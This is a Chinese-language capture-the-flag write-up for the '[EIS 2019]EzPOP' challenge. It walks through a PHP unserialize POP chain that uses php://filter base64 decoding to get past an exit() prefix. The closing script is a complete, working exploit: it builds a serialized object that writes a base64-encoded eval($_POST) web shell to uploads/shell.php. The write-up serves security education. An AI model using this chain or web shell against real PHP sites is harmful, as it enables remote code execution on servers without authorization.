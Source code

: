 # \[EIS 2019]EzPOP

## \[EIS 2019]EzPOP

## 考点

* php://filter/write绕过“死亡exit”

## wp

给了源码，返回头看到PHP版本7.3。其实这里不给源码也可以做，用`arjun`可以探测参数，存在参数`src`，传入就可以看到源码了。

![](<../../.gitbook/assets/image (33) (1).png>)

给了源码，一点一点看。首先定义两个类，然后GET的src参数，上传目录`uploads/`，最后反序列化`data`

![](<../../.gitbook/assets/image (20).png>)

确定是反序列化，然后找`__destruct()`作为入口，可以锁定`class A`，然后`$this->autosave`为`false`，然后不断向上调用

![](<../../.gitbook/assets/image (11).png>)

`getForStorage()`那一大块可以写成一段代码，这段代码意思举个例子解释，比如`array("0"=>array("path"=>"a"))`，处理之后就是`array("0"=>"a")`，感觉有点多此一举。再json\_encode一下，变成一个字符串。在`getForStorage()`后执行的是 `$this->store->set()`，由此跳转到`class B`

```php
    function cleanContents(array $contents) {
        $cachedProperties = array_flip([
            'path', 'dirname', 'basename', 'extension', 'filename',
            'size', 'mimetype', 'visibility', 'timestamp', 'type',
        ]);
        foreach ($contents as $path => $object) {
            if (is_array($object)) {
                $contents[$path] = array_intersect_key($object, $cachedProperties);
            }
        }
        return $contents;
    }
  $cache = array("0"=>array("path"=>"a"));
  $cleaned = cleanContents($cache);
  var_dump(json_encode([$cleaned, "2"]));
```

到这可以先写一下Ａ类的序列化

```php
class A{
    protected $store;
    protected $key;
    protected $expire;
    
    public function __construct($store){
      $this->key = 'tmp1';
      $this->expire= 'tmp2';
      $this->store= $store;
    }
}
$b = new B();
$a = new A($b);
$a->cache = array("tmp3");
$a->complete = "tmp4";
```

然后看`class B`的set函数，接收的三个参数分别是`$name`，`$value`，`$expire`，分别与`$a->key`，`json_encode([$a->cache, "2"])`，`$a->expire`相关联。然后把`$expire`转化为整型，用`$this->options['prefix']`拼接`$name`，处理`$filename`，这里感觉也没啥用，对`$filename`和`$expire`处不处理并没有多大影响，更像是从哪个项目里复制出来的。

![](<../../.gitbook/assets/image (12).png>)

然后看一下`$value`的处理，它的值应该是类似于这种`[[{"path":"a"}],2]`，或者是这种`[["a"],2]`，把它作为参数传给`$this->serialize()`，在这个函数里面可以执行任意函数，但是没有函数的参数是像`$value`那种，所以这里最好是保持空过，`$serialize`就可以是`trim`或者`strval`之类的函数

```php
    protected function serialize($data): string {
        if (is_numeric($data)) {
            return (string) $data;
        }
        $serialize = $this->options['serialize'];
        return $serialize($data);
    }
```

接着往后看，这里的if是是否进行数据压缩，`$this->options['data_compress']`置为false，跳过这一步。`sprintf('%012d', $expire)`是把`$expire`左补齐12位，如果`$expire`是11，那么这个结果就是`000000000011`。再看这两行行，就是典型的php://filter的妙用，绕过“死亡exit”。`$data`为要写入的shell，`$filename`为`php://filter/write=convert.base64-decode/resource=shell.php`

```php
        if ($this->options['data_compress'] && function_exists('gzcompress')) {
            $data = gzcompress($data, 3);
        }
        $data = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data;
        $result = file_put_contents($filename, $data);
        if ($result) {
            return true;
        }
        return false;
```

在`$data =` 那一行中，可以被base64识别的是`php000000000011exit`这19个字符，要在shell中补字符直到总长度符合base64解码规范

```php
class A{
    protected $store;
    protected $key;
    protected $expire;
    
    public function __construct($store){
      $this->key = 'uploads/shell.php';
      $this->expire= 1;
      $this->store= $store;
    }
}
class B{}
$b = new B();
$b->options['data_compress'] = false;
$b->options['prefix'] = "php://filter/write=convert.base64-decode/resource=";
$b->options['serialize'] = "trim";

$a = new A($b);
/* <?php eval($_POST[1]);?>*/
$a->cache = array("PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+");
$a->complete = 2;
```

如果这样生成代码，得到的value是`[["PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+"],2]`，前面是21个字符，中间补3个，后面补3个，最后cache是`array("aaaPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+aaa")`

完整代码

```php
<?php
class A{
    protected $store;
    protected $key;
    protected $expire;
    
    public function __construct($store){
      $this->key = 'uploads/shell.php';
      $this->expire= 1;
      $this->store= $store;
    }
}
class B{}
$b = new B();
$b->options['data_compress'] = false;
$b->options['prefix'] = "php://filter/write=convert.base64-decode/resource=";
$b->options['serialize'] = "trim";

$a = new A($b);
/* <?php eval($_POST[1]);?>*/
$a->cache = array("aaaPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+aaa");
$a->complete = 2;

echo urlencode(serialize($a));
```

![](<../../.gitbook/assets/image (32).png>)

## 小结

1. [谈一谈php://filter的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)
2. [\[2020 新春红包题\]1](../php-zong-he/2020-xin-chun-hong-bao-ti-1.md)是它的增强版
